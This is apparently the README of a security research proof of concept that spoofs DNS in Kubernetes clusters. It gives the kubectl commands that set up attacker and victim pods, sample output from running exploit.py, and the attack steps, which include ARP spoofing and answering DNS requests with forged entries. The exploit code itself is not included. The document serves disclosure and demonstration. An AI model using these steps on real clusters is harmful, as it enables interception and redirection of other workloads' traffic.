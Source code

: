 # Kube-Dnsspoof

Kube-dnsspoof is a POC for DNS spoofing in kubernetes clusters.
This exploit runs with minimum capabilities, on default installations of kuberentes.
This repository contains all files and related code for running this exploit.  

The following video demonstrates how onw can use this to intercept traffic for specifc domains in a cluster:
[![asciicast](https://asciinema.org/a/250310.svg)](https://asciinema.org/a/250310)
Further read on this subject can be done on [this blog post](https://blog.aquasec.com/dns-spoofing-kubernetes-clusters)

## Prerequisites
A Kubernetes cluster


## Run the exploit
  
First, create the pods by:
    
```bash
$ kubectl create -f pods/
pod/hacker created     
pod/victim created   
```

After the pod was created, exec into the hacker pod. it will contain the exploit and hosts file inside the /dnsspoof folder.

```zsh
$ kubectl exec -it hacker zsh
➜  hacker /dnsspoof ls
exploit.py  hosts
➜  hacker /dnsspoof 
```

Next, edit the hosts file to contain your spoofed domains.
The script will proxy all DNS requests to the real kube-dns pod, except for the entries in the hosts file.  

Example for successful run of the exploit:
```zsh
➜  hacker /dnsspoof ./exploit.py
[*] starting attack on indirect mode
Bridge:  172.17.0.1 c0:0f:fe:eb:4b:e0
Kube-dns:  172.17.0.4 02:42:bb:76:74:f8

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

#### timeouts
When proxying alot of requests, the code can hang. to control this, you can pass a timeout via `--forward-timeout`

The steps of the exploit:
* Deciding whether it can run
* Discovering relevant mac/ip addresses
* ARP spoofing the bridge (and kube-dns in case of direct attack mode)
* DNS proxy requests, and spoofing relevant entries
* Restoring all network on CTRL+C interrupt


